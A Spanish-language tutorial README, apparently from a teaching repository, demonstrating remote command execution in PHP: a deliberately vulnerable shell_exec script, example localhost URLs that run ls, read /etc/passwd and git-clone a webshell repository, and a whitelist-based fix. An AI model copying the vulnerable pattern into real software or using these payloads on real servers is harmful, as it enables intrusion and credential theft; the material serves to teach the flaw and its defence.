



# Ejemplo de la vulnerabilidad RCE

Una vulnerabilidad RCE consiste en ejecutar comandos de forma remota en el servidor para acceder a él o para instalar malware en el servidor.

### Vulnerable Website
http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php

En este sitio puedes enviar un comando y el servidor lo ejecutara, puedes probar con el comando ls.
```
<?php
ini_set('display_errors', 1);
error_reporting(E_ALL);
/* If the parameter cmd not exists finish the execution */
if (!isset($_GET['cmd'])) {
	die("Falta el parametro cmd");
}
$output = shell_exec($_GET['cmd']);
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
```

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php?cmd=ls



Ejecutando un comando git clone podrias instalar un repositorio de Github en el servidor.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php?cmd=git%20clone%20https://github.com/xl7dev/WebShell.git

*Es posible que necesite modificar los permisos de la carpeta para hacer esto*

Tambien podrias tratar de obtener el fichero etc/passwd.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php?cmd=cat%20/etc/passwd



### Sitio web seguro.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_safe.php

Aunque lo ideal sería no permitir al sitio web ejecutar comandos ai necesitamos la ejecución de determinados comandos podemos crear una lista blanca de los comandos que vamos a jeecutar.

```
<?php
ini_set('display_errors', 1);
error_reporting(E_ALL);
/*Array with the allowed commands to execute in the server */
$allowed_cmds = ["ls", "whoami", "pwd"];

/* If the parameter cmd not exists or isn't in the list finish the execution */
if (!isset($_GET['cmd']) || !in_array($_GET['cmd'], $allowed_cmds)) {
	die("Falta el parametro cmd  o ha insertado un comando no valido");
}

/* Execute the command in the cmd parameter and shows the output */
$output = shell_exec(escapeshellarg($_GET['cmd']));
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
```
Si ejecutamos un comando no permitido se detendra la ejecución antes de ejecutarlo.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_safe.php?cmd=cat%20/etc/passwd


